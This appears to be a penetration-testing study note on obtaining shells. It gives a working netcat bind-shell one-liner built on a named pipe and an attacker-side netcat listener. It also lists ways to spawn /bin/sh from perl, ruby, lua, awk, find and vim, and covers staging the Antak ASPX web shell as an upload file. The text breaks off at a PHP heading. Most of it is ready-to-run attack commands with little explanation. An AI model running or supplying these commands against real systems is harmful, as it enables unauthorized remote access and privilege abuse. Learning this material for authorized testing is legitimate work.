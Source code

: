 https://www.revshells.com/
# #Bind Shell
![[Pasted image 20230731115803.png]]
Target system has a listener and awaits a connection from the attacker.
### Bind Shell with NC 
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f
```
```shell
nc -nv <ip> <port>
```

# #Reverse Shell
Attacker 
```shell
sudo nc -lvnp 443
```
# Interactive Shells
```shell
/bin/sh -i
```
### Perl
```shell
perl —e 'exec "/bin/sh";'
```
Run from script:
```shell
perl: exec "/bin/sh";
```
### Ruby 
```shell
ruby: exec "/bin/sh"
```
### Lua
```shell
lua: os.execute('/bin/sh')
```
### AWK
```shell
awk 'BEGIN {system("/bin/sh")}'
```
### Find
```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```shell
find . -exec /bin/sh \; -quit
```
### Vim
```shell
vim -c ':!/bin/sh'
```

```vim
vim
:set shell=/bin/sh
:shell
```

# Web Shells
#### [Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
	Ready made files that can be injected 
#### Antak
###### ASPX = Active Server Page Extended (ASPX) 
Built on ASP.NET framework.
Web form pages generated for users to input dat
##### Antak web shell
Web shell built in ASP.NET that gives powershell commands


```shell
ls /usr/share/nishang/Antak-WebShell
```

```shell
 cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```
Change username and password?

#### PHP
